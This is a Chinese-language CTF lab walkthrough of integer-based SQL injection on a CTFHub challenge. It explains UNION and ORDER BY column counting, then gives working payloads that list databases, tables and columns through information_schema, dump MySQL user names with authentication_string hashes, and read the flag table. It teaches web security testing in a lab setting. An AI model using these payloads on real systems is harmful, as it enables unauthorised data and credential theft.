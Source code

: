 # 1.5-sql-注入

- 学习这个之前需要有mysql基础+php基础，如果对于这两个不了解，轻移至https://www.runoob.com
- 上面的链接是菜鸟教程，可以学习mysql+php



## 1.1-整型注入

- 这里我们拿ctfhub来做实验

- ![image-20220813142847412](assets/image-20220813142847412.png)

- 可以看到上图中有一个sql语句

- ```
  select * from news where id=1
  ```

- 这其中的变量1是我们可控的，sql注入的关键就在于这个可控的变量，在这之前，我们需要学习前置知识

- mysql中的union联合语句

  - union联合语句是什么？

    - MySQL UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合中。多个 SELECT 语句会删除重复的数据。

  - union联合语句可以干啥？

    - 在日常操作中可以同时查询两个字段数量相同数据

  - union联合语句语法是什么？

    - ```
      SELECT expression1, expression2, ... expression_n
      FROM tables
      [WHERE conditions]
      UNION [ALL | DISTINCT]
      SELECT expression1, expression2, ... expression_n
      FROM tables
      [WHERE conditions];
      ```

    - 可以看出union只是负责将两个select语句连接起来，起到同时执行两个select语句，其中还有两个参数，一个ALL和一个DISTINCT

      - ALL: 可选，返回所有结果集，包含重复数据。
      - DISTINCT:可选，删除结果集中重复的数据。默认情况下 UNION 操作符已经删除了重复数据，所以 DISTINCT 修饰符对结果没啥影响。（默认）

  - 知道了以上前置知识之后咱就可以尝试sql注入了

  - ![image-20220813145457288](assets/image-20220813145457288.png)

  - 当我们输入id为2的时候会回显一个skill的数据，如果为1的时候会回显一个ctfhub的数据，由于变量可控，我们就可以尝试使用union联合查询，union联合查询有一个特点，当我们查询的第一个select语句无效，则会返回第二个select语句的数据，但是我们前面的字段和后面一个select的字段一定要一致，因此我们第一步是拆解字段数

  - 拆解字段数可以使用order by num 语句

  - ![image-20220813150013956](assets/image-20220813150013956.png)

  - 上图是order by 字段的作用，根据order by的特性，可以用下标作选择第几个字段，如果字段存在则返回数据，如果不存在则报错，那么我们可以根据order by 一个数字来判断字段数量

  - ![image-20220813150227590](assets/image-20220813150227590.png)

  - 上图中我的变量不仅仅写的是1而是 1 order by 1 #，这里面的井号表示的是mysql的注释，一般情况是为了闭合才写的，这里因为是数字型注入，所以不写也没关系

  - ![image-20220813150434670](assets/image-20220813150434670.png)

  - ![image-20220813150449381](assets/image-20220813150449381.png)

  - 根据上面两张图片可以发现字段为2的时候存在数据，为3的时候不返回数据，则表示该语句返回的字段数为2个

  - ![image-20220813151105707](assets/image-20220813151105707.png)

  - 根据上图可以发现执行成功，说明存在union联合注入

  - ![image-20220813151217815](assets/image-20220813151217815.png)

  - 这个时候我们尝试让第一个select语句报错，于是输入了一个11，因为数据库中不存在11所以就返回了第二个select字段，第二个select查询结果应该是 1,2 这里可以看到id回显为1，data回显为2

  - 我们先查询一下mysql的版本

  - ![image-20220813151435564](assets/image-20220813151435564.png)

  - 可以看到是mariadb 10.3.22这个和mysql8版本相似（因为mariadb和mysql是同一个人写的，所以差异并不大）

  - 于是我们可以查询所有的数据库名称，在这之前我们需要知道一个数据库（information_schema)

  - ![image-20220813151823088](assets/image-20220813151823088.png)

  - information_schema数据库是MySQL系统自带的数据库，它提供了数据库元数据的访问方式，包含了所有的数据库名和表名以及字段名

  - 构造以下语句查询数据库

  - ```
    11 union select 1,group_concat(schema_name) from information_schema.schemata
    ```

    - group_concat() --> 将group by产生的同一个分组中的值连接起来，返回一个字符串结果。

  - ![image-20220813152130891](assets/image-20220813152130891.png)

  - 查询mysql数据表

  - ```
    11 union select 1,group_concat(table_name) from information_schema.tables where table_schema='mysql'
    ```

  - ![image-20220813152840728](assets/image-20220813152840728.png)

  - 查询user字段名

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='mysql'
    ```

    

  - ![image-20220813153401826](assets/image-20220813153401826.png)

  - 查询user,authentication_string数据

  - ```
    11 union select 1,group_concat(User,authentication_string) from mysql.user
    ```

    

  - ![image-20220813153556945](assets/image-20220813153556945.png)

  - 这里我在sqli数据库中找到了flag表

  - ![image-20220813153901329](assets/image-20220813153901329.png)

  - 查询flag表的所有字段

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'
    ```

    ![image-20220813154146058](assets/image-20220813154146058.png)

  - 查询flag

  - ```
    11 union select 1,group_concat(flag) from sqli.flag
    ```

    

  - ![image-20220813154431944](assets/image-20220813154431944.png)

  - 至此咱的数字型注入就结束了，如果换成其他类型的注入除了构造payload不同以外，其他的查询都是一样的，因此，之后的其他类型注入我们只找到注入点，详细的查询参考上面的数字型注入即可或者直接使用sqlmap也行

    
  
  